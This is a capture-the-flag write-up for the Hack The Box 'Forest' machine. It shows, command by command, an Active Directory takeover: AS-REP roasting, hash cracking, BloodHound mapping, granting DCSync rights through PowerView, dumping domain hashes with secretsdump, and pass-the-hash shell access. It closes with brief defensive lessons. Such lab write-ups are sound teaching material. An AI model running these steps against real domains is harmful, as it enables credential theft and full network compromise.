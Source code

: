 ```yaml
---
layout: htb-ctf
title: "CTF Writeup: Forest"
date: 2025-01-22
categories: [CTF, Writeup, [hackthebox]]
tags: [[AD], [DcSync], [htb]]
---
```


# Hack The Box - Forest

## Description
Forest is an easy machine that focusses on Active Directory and how this can be misused when certain conditions are met.

## Information Gathering

### Step 1: Enumeration
I start with running good olde nmap to enumerate the target machine.

```bash
# sudo nmap -sC -sV -A -v -p- -Pn -T4 -oN NMAP/forest_TCP 10.129.84.192
```
![alt text](/assets/screenshots/forest/image.png)
Seems that nothing special is running on the machine other then what we could expect from a AD machine.

Let's start with some user enumeration. We can use enum4linux for this.
```bash
# enum4linux -a -U 10.129.84.192
```
![alt text](/assets/screenshots/forest/image-1.png)<br>
I got some usernames!

Now that we found some usernames we can try and use AS-REP roasting. With kerberoasting we need to use credentials to authenticate with. But with AS-REP roasting we can get the hashes for accounts that have the 'do not require kerberos preauth' set to true.

## Exploitation

### Step 2: AS-REP Roasting

To make the AS-REP Roasting a bit faster I made a for loop to walk through a list of usernames. This is much easier then having to run the command multiple times for each username.

```bash
# for user in $(cat usernames.txt); do /opt/impacket/examples/GetNPUsers.py -no-pass -dc-ip 10.129.187.133 htb/${user} | grep -v Impacket;
```
![alt text](/assets/screenshots/forest/image-2.png)<br>
I got a hit on the hash for the user svc-alfresco!

Let's use hashcat to try and crack the hash.
```bash
# sudo hashcat -m 18200 svc_alfresco.hash /usr/share/wordlists/rockyou.txt.gz --force
```
![alt text](/assets/screenshots/forest/image-3.png)<br>
And got a hit on the password! This means I can now authenticate to the target machine using the alfresco credentials.

Using netexec to test if the credentials are working.
```bash
# netexec smb 10.129.187.133 -u "svc-alfresco" -p "[password]" --shares
```
![alt text](/assets/screenshots/forest/image-4.png)<br>
They are working and have SMB rights. I could also use netexec to run the scripts needed for bloodhound enumeration. Doing this I can get a detailed picture of the AD network and the relations between users, groups and more.
```bash
# netexec ldap 10.129.187.133 -u "svc-alfresco" -p "[password]" --bloodhound --collection All --dns-server 10.129.187.133
```
![alt text](/assets/screenshots/forest/image-5.png)<br>

It worked, I can now import this into bloodhound and see the relation in this AD envirionment.
![alt text](/assets/screenshots/forest/image-7.png)<br>
It seems that SVC-alfresco is member of the Account Operators group by a couple of group jumps. This means he can create new users to the domain.

Looking a bit deeper into the Account Operators group I can see that they have GenericAll rights on the Exchange Windows Permissions group.
![alt text](/assets/screenshots/forest/image-8.png)<br>
The Exchange Windows Permissions groups has WriteDacl (Discretionary Access Control List) rights on the HTB.Local environment. This means that a member of the Exchange Windows Permissions group can give any user DcSync privileges.

Before I look into this attack scenario further let's first try and login using the credentials and get the user.txt file. evil-winrm can be used to login to the target machine.
```bash
# evil-winrm -i 10.129.187.133 -u svc-alfresco -p [password]
```
![alt text](/assets/screenshots/forest/image-9.png)<br>

Now I should be able to get that user.txt file.
![alt text](/assets/screenshots/forest/image-19.png)<br>

# Privilege Escalation
Now to find a way to elevate privileges.

From the bloodhound insight, I know that our user svc-alfresco is a member of the privileged IT accounts. This means he can create a new domain account and because the Privileged IT account it part of the Account operators and the account operator have generic all over Exchange windows permissions we can add the user to that group!
And to make a home-run that group has WriteDacl on the htb.domain which we can use to get a DcSync and get the hashes!

First step is to create a new user on the domain. Which we can do because we are member of the Account Operators group.
```bash
# net user tech password123! /add /domain
```
![alt text](/assets/screenshots/forest/image-10.png)<br>

Now that I created a new user "tech" I can add him to the Exchange Windows Permissions group.
```bash
# net group "Exchange Windows Permissions" /add tech
```
![<alt text>](/assets/screenshots/forest/image-11.png)<br>
Noice! Our tech user is now member of the Exchange Windows Permissions group.

Now I need to give tech the rights to DcSync on the domain.
In order to do this I need Powerview.ps1!

I can simply use evil-winrm to upload powerview.ps1
![alt text](/assets/screenshots/forest/image-12.png)<br>

Now start Powerview.ps1.
```bash
# . ./Powerview.ps1
```
![alt text](/assets/screenshots/forest/image-13.png)<br>

Now I will run the following commands.
```bash
# $SecPassword = ConvertTo-SecureString 'password123!' -AsPlainText -Force
# $Cred = New-Object System.Management.Automation.PSCredential('htb\tech', $SecPassword)
# Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity tech -Rights DCSync
```
![alt text](/assets/screenshots/forest/image-14.png)<br>

Our user tech should now be able to use DcSync and able to get all the users hashes!
Let's use impacket-secretsdump to execute our DcSync attack.

```bash
# impacket-secretsdump htb.local/tech:'password123!'@10.129.187.133
```
![alt text](/assets/screenshots/forest/image-15.png)<br>
I can see the administrator and his hash!

Now use a tool like psexec to get a shell on the system.
```bash
# impacket-psexec administrator@10.129.187.133 -hashes hash:hash
```
![alt text](/assets/screenshots/forest/image-16.png)<br>
Now I can get that root.txt!

![alt text](/assets/screenshots/forest/image-17.png)<br>
Noice!

![alt text](/assets/screenshots/forest/image-18.png)<br>

## Conclusion
To summarize this machine. It was a AD machine that had some misconfigurations like not enforcing kerberos authentication. Also the privileges for the users are not restricing enough and led to a total takeover in this scenario.

## Lessons Learned
- check the accounts are kerberoastable or even asking for kerberos auth.
- check if each user needs certain privileges it has before giving it.